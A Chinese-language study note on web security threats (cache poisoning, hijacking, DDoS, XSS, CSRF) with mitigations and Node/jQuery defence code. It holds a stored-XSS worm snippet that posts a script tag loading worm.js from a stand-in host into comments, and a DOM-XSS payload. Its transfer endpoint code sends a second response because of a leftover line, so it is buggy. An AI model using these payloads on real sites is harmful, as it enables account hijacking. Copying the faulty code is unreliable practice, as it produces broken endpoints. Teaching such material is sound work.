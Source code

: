 ### 1、恶意网站拦截 ###
* 浏览器周期性的从服务端获取一份最新的恶意网站黑名单，如果，用户上网时访问的网址存在于此黑名单中，浏览器会弹出一个警告页面。
* 解决办法：工信部投诉

### 2、缓存投毒 ###
* 免费的WiFi，欢迎页，偷偷请求好多网站，访问A站时，加载了b站的通用脚本jq/bs(内含恶意脚本)，由于大部分网站有缓存静态文件（jq,bootstrap）的时间较长。离开免费WiFi后，再次请求A站时候，就会触发jq中含有的恶意代码。
* 解决办法：尽量不用；清除缓存。
### 3、文件投毒 ###
* 下载非官方的插件（jq）;官方下载地址被攻击；不可信的第三方cdn资源。
* 解决办法：自己擦亮眼睛
### 4、客户端投毒 ###
* chrome 安装了恶意的插件
* 解决办法：密码防止装库，手机验证码
### 5、网页劫持 ###
* 本机的hosts文件被篡改,映射被改了、190.208.173.191 preok.com
* 公网的dns被解析到另一个恶意网站。
 * 脚本被篡改，比如jq引用其它网站的包。
* 解决办法：升级https。
### 6、DDOS攻击（distribute denial of service） ### 
 * 黑客控制大量肉鸡（别人ip，不同IP）发送非正常请求，
 * 向主机服务器频繁发送非正常请求，
 * 解决办法：没有有效的方法。1、验证码,2、限制请求频率、3、增加服务宽带（增加并发量，双11）、4、负载均衡分布式服务(不同区域不同服务器)、5、买些高仿IP（太贵）
### 7、xss+csrf 儒虫 ### 
* 儒虫 有人引爆它，让它触发，比如
    ```
    // 将一个请求接口脚本 存到服务器，
    // 比如：下边评论功能，将评论内容发到数据库，每次有人=看的时候就自动提交一次。越来越多。
    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });
    ```
### 8、HTTP劫持 ###
* 客户端与服务器二者建立了通道，中间被劫持，也可能是运营商加个广告、
* 解决办法：https

### 9、自身安全漏洞问题 ###    
    
* 1、跨站脚本攻击（XSS）
    * 含义：cross site script,避免和css重复、所以叫 ‘XSS’,往网页里注入恶意的脚本代码，当用户访包含恶意脚本的代码时候，通过恶意脚本，黑客可以获取和控制用户信息。
    * 反射型（发给服务器返回）：引导用户点击链接，
        * 解决办法：httpOnly浏览器禁止页面的js访问带有HttpOnly属性的Cookie；谷歌浏览器做了大部分拦截；需要encodeURI和encodeURIComponent联合使用。
    * 存储型：恶意的脚本存储到服务器。
        * 解决办法：输入检测（过滤js脚本），输出检测（编码火转移）;需要encodeURI和encodeURIComponent联合使用;[html转义](http://www.w3school.com.cn/html/html_entities.asp);js转义（“e” 编码为“\145”），前端展示用函数（类库）转义下。
    * DOM-Based型XSS。不需要服务端参与，是由于DOM结构修改导致的，基于浏览器DOM解析的攻击。
    浏览器在DOM解析的时候直接使用恶意数据，常见的触发场景就是在修改innerHTML outerHTML document.write的时候。
       * 解决办法，过滤输入
    ```
    // DOM-Based
    <body>
    <h1>输入链接地址，然后点击按钮</h1>
    <div id="content"></div>
    <input type="text" id="link">
    <button onclick="setup()">设置</button>
    <script src="https://cdn.bootcss.com/jquery/3.3.1/jquery.js"></script>
    <script>
        function setup() {
            // " onclick=alert(1) //
            let html = `<a href="${$('#link').val()}">点我</a>`;
            $('#content').html(html);
        }
    </script>
    </body>
    ```
    * payload XSS。窃取用户的Cookie，识别浏览器，钓鱼链接让用户访问假冒网站。
* 2、跨站请求伪造CSRF（Cross-site request forgery） 
    * 含义：跨站点请求伪造。  用户A登录银行网站，登录成功后会设置cookie，黑客诱导用户A登录到黑客的站点，然后会返回一个页面 ，用户访问这个页面时，这个页面会伪造一个转账请求到银行网站。
    * 解决办法1 验证码（影响用户体验） 类库（svgCaptcha），刷新的时候后端生成验证码发送给前端，前端保存到session（或者仅仅显示）中，请求的时候带过去（参数），相同服务端就返回，否则就拒绝。
    ```
    <div class="form-group">
        <label for="captcha" id="captcha"></label>
        <input id="captcha" class="form-control" placeholder="请输入验证码">
    </div>
    
    
     $.get('/api/captcha').then(data => {
        if (data.code == 0) {
            $('#captcha').html(data.captcha);
        } else {
            alert('用户未登录');
            location.href = '/login.html';
        }
    });
        var svgCaptcha = require('svg-captcha');
    app.get('/api/captcha', function (req, res) {
        let session = userSessions[req.cookies.sessionId];
        if (session) {
            var codeConfig = {
                size: 5,// 验证码长度
                ignoreChars: '0o1i', // 验证码字符中排除 0o1i
                noise: 2, // 干扰线条的数量
                height: 44
            }
            var captcha = svgCaptcha.create(codeConfig);
            session.captcha = captcha.text.toLowerCase(); //存session用于验证接口获取文字码
            res.send({ code: 0, captcha: captcha.data });
        } else {
            res.json({ code: 1, data: '没有该用户' });
        }
    });
    
    ```
    * 解决办法2、refer验证（不可靠）
     ```
      let referer = req.headers['referer'];
        if (/^https?:\/\/localhost:3000/.test(referer)) {
    
        } else {
            res.json({ code: 1, error: 'referer不正确' });
        }
     ```
     * 解决办法3 token验证（推荐）服务端生成token传给浏览器，交互的时候，判断是否相同。token有很多种生成方式，比如cookie或者sessionId,规则前后端双方约定好。 不容易被伪造，一次性的，
     ```
     function getClientToken() {
            let result = document.cookie.match(/token=([^;]+)/);
            return result ? result[1] : '';
        }
    function transfer(event) {
                event.preventDefault();
                let target = $('#target').val();
                let amount = $('#amount').val();
                let captcha = $('#captcha').val();
                $.post('/api/transfer', {
                    target,
                    amount,
                    captcha,
                    clientToken: getClientToken()
                }).then(data => {
                    if (data.code == 0) {
                        alert('转账成功');
                        location.reload();
                    } else {
                        alert('用户未登录');
                        location.href = '/login.html';
                    }
                });
    }
         app.post('/api/transfer', function (req, res) {
        // let referer = req.headers['referer'];
        //if (/^https?:\/\/localhost:3000/.test(referer)) {
        let { target, amount, clientToken, captcha } = req.body;
        amount = isNaN(amount) ? 0 : Number(amount);
        let { username, token } = userSessions[req.cookies.sessionId];
        if (username) {
            if (clientToken == token) {
                let user;
                for (let i = 0; i < users.length; i++) {
                    if (username == users[i].username) {
                        users[i].money -= amount;
                    } else if (target == users[i].username) {
                        users[i].money += amount;
                    }
                }
                res.json({ code: 0 });
            } else {
                res.json({ code: 1, error: '违法操作' });
            }
        } else {
            res.json({ code: 1, error: '用户没有登录' });
        }
        //} else {
        res.json({ code: 1, error: 'referer不正确' });
        //}
    })
     ```
 
